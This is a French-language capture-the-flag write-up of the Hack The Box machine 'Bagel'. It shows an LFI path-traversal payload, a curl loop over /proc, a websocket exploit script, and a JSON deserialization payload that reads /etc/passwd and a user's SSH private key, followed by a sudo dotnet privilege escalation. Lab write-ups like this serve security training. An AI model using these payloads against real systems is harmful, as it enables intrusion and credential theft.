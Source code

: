 # Bagel - Medium

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-28 19:46 EST                                
Nmap scan report for 10.10.11.201                                                                                                                                                             
Host is up (0.020s latency).                                                                   
Not shown: 997 closed tcp ports (conn-refused)                                                 
PORT     STATE SERVICE  VERSION                                                                
22/tcp   open  ssh      OpenSSH 8.8 (protocol 2.0)                                             
| ssh-hostkey:                                                                                                                                                                                
|   256 6e:4e:13:41:f2:fe:d9:e0:f7:27:5b:ed:ed:cc:68:c2 (ECDSA)                                
|_  256 80:a7:cd:10:e7:2f:db:95:8b:86:9b:1b:20:65:2a:98 (ED25519)                              
5000/tcp open  upnp?
8000/tcp open  http-alt Werkzeug/2.2.2 Python/3.10.9
```

On n’arrive pas à acceder au port 5000 via https mais le script nmap nous dévoile le nom de domaine bagel.htb au port 8000 que l’on rajoute à notre /etc/hosts. On atterit alors sur un site. On lance un gobuster en fond. On remarque l’url de l’index qui est bizarre:

```bash
http://bagel.htb:8000/?page=index.html
```

On pense donc à une LFI:

```bash
http://bagel.htb:8000/?page=../../../../../../../../etc/passwd
```

On obtient le /etc/passwd et on sait que il y a ces comptes: phil et developer

Il faut maintenant trouver des fichiers intéressants dans leur /home avec gobuster

```bash
http://bagel.htb:8000/?page=../../../../../../../../home/developer/

/.bash_profile        (Status: 200) [Size: 141]
/.bashrc              (Status: 200) [Size: 492]
/.bash_logout         (Status: 200) [Size: 18]
```

On va télécharger un fichier spécial pour ça: [https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt)

Voici ce que l’on trouve: 

```bash
//etc/bluetooth/main.conf (Status: 200) [Size: 11118]   
//etc/crontab         (Status: 200) [Size: 451]         
//etc/crypttab        (Status: 500) [Size: 265]         
//etc/default/grub    (Status: 200) [Size: 381]         
//etc/exports         (Status: 200) [Size: 0]            
//etc/fedora-release  (Status: 200) [Size: 31]           
//etc/fstab           (Status: 200) [Size: 570]          
//etc/fuse.conf       (Status: 200) [Size: 38]           
//etc/group           (Status: 200) [Size: 761]                    
//etc/group-          (Status: 200) [Size: 746]                     
//etc/host.conf       (Status: 200) [Size: 9]                       
//etc/hostname        (Status: 200) [Size: 6]                      
//etc/hosts           (Status: 200) [Size: 392]                    
//etc/inittab         (Status: 200) [Size: 490]                     
//etc/issue           (Status: 200) [Size: 28]                      
//etc/issue.net       (Status: 200) [Size: 27]                      
//etc/ld.so.conf      (Status: 200) [Size: 28]                      
//etc/login.defs      (Status: 200) [Size: 8676]                    
//etc/logrotate.conf  (Status: 200) [Size: 493]                    
//etc/motd            (Status: 200) [Size: 0]                      
//etc/mtab            (Status: 200) [Size: 1758]                    
//etc/mtools.conf     (Status: 200) [Size: 2620]                   
//etc/networks        (Status: 200) [Size: 58]                      
//etc/openldap/ldap.conf (Status: 200) [Size: 900]                  
//etc/os-release      (Status: 200) [Size: 761]                     
//etc/passwd-         (Status: 200) [Size: 1777]               
//etc/passwd          (Status: 200) [Size: 1823]     
//etc/profile         (Status: 200) [Size: 1945]
//etc/redhat-release  (Status: 200) [Size: 31]       
//etc/resolv.conf     (Status: 200) [Size: 920]      
//etc/samba/smb.conf  (Status: 200) [Size: 853]      
//etc/security/access.conf (Status: 200) [Size: 4564]
//etc/security/group.conf (Status: 200) [Size: 3635] 
//etc/security/limits.conf (Status: 200) [Size: 2426]
//etc/security/namespace.conf (Status: 200) [Size: 1637]
//etc/security/opasswd (Status: 500) [Size: 265]        
//etc/security/pam_env.conf (Status: 200) [Size: 2971]  
//etc/security/sepermit.conf (Status: 200) [Size: 418]  
//etc/security/time.conf (Status: 200) [Size: 2179]     
//etc/shadow-         (Status: 500) [Size: 265]         
//etc/shadow          (Status: 500) [Size: 265]         
//etc/ssh/sshd_config (Status: 500) [Size: 265]         
//etc/sudoers         (Status: 500) [Size: 265]         
//etc/sysconfig/network-scripts/ifcfg-eth0 (Status: 200) [Size: 67]
//etc/sysctl.conf     (Status: 200) [Size: 523]                    
//etc/updatedb.conf   (Status: 200) [Size: 513]                    
//proc/cpuinfo        (Status: 200) [Size: 2210]                   
//proc/meminfo        (Status: 200) [Size: 1559]                   
//proc/devices        (Status: 200) [Size: 569]                    
//proc/net/udp        (Status: 200) [Size: 640]                    
//proc/self/environ   (Status: 200) [Size: 233]                    
//proc/self/cmdline   (Status: 200) [Size: 35]                     
//proc/self/stat      (Status: 200) [Size: 314]                    
//proc/self/mounts    (Status: 200) [Size: 1758]                   
//proc/self/status    (Status: 200) [Size: 1407]                   
//proc/version        (Status: 200) [Size: 210]                    
//proc/net/tcp        (Status: 200) [Size: 182850]                 
//var/log/boot.log    (Status: 500) [Size: 265]                    
//var/log/messages    (Status: 500) [Size: 265]
```

Dans /proc/self/cmdline on trouve ceci:

```bash
python3/home/developer/app/app.py
```

On va donc télécharger cette application, ce script permet de se connecter sur le port 5000. On peut modifier le fichier pour essayer de se connecter à distance mais il y a ceci dans le fichier:

```bash
# don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
```

Pour trouver ce DLL on peut utiliser cette astuce pour avoir la ligne de commande qui a lancé le process -o- est pour écrire dans stdout

```bash
/etc/$pid/cmdline
```

```bash
for i in {800..1000}; do curl http://bagel.htb:8000/?page=../../../../../../proc/$i/cmdline -o-; echo " | $i";done
```

On trouve ceci:

```bash
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll | 935
```

On télécharge alors le fichier et il faut pouvoir l’ouvrir, on utilise ILSpy parce que c’est son usage

[https://github.com/icsharpcode/AvaloniaILSpy/releases/tag/v7.2-rc](https://github.com/icsharpcode/AvaloniaILSpy/releases/tag/v7.2-rc)

On trouve dans DB le mdp pour dev mais pas possible d’ssh directement alors il faudra passer par phil. On va donc créer notre propre script python en copiant celui de app.py pour se connecter à la DB:

```python
import websocket,json

ws = websocket.WebSocket()    
ws.connect("ws://10.10.11.201:5000/") # connect to order app
order = {"ReadOrder":"orders.txt"}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(json.loads(result)['ReadOrder'])
```

On le teste:

```python
python3 exploit.py 

order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]
order #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]
order #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels]
```

Le problème est qu’avec ReadOrder les “/” et “..” sont enlevés, on le voit dans le code du .dll

On voit que RemoveOrder n’est pas protégé par la même chose alors on va essayer d’utiliser la désérialisation json:

```
In many occasions you can find some code in the server side that unserialize some object given by the user.
In this case, you can send a malicious payload to make the server side behave unexpectedly.
```

Il y a bien une vulnérabilité car TypeNameHandling est à 4 alors qu’il faut qu’il soit à 0 pour être safe. Le payload devient donc:

```json
order = {"RemoveOrder":{"type":"bagel_server.file","ReadOrder":"../../../../../etc/passwd"}}
```

On obtient le /etc/passwd dans la réponse puisque dans le code du .dll on voit bien que cette méthode retourne la requête (d’ou la désérialisation)

On peut donc essayer de chopper un clé privée de phil:

```json
order = {"RemoveOrder":{"type":"bagel_server.file","ReadOrder":"../../../../../home/phil/.ssh/id_rsa"}}
```

Il ne faut pas oublier de chmod 600. On est connecté en tant que phil et on peut direct ssh en tant que dev vu qu’on avait récupéré le mdp.

```bash
sudo -l

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

[https://gtfobins.github.io/gtfobins/dotnet/](https://gtfobins.github.io/gtfobins/dotnet/)

On lit le flag root